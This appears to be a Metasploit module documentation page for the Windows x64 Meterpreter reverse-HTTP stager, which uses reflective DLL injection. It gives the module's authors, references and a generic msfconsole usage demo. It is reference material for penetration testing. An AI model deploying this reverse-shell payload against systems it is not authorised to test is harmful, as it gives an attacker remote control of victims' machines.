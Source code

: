 ## Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged x64). Tunnel communication over 
HTTP (Windows x64 winhttp)


## Module Name
payload/windows/x64/meterpreter/reverse_winhttp

## Authors
* skape
* sf
* OJ Reeves


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter/reverse_winhttp
msf payload(reverse_winhttp) > show targets
   ... a list of targets ...
msf payload(reverse_winhttp) > set TARGET <target-id>
msf payload(reverse_winhttp) > show options
   ... show and set options ...
msf payload(reverse_winhttp) > run
```
    
    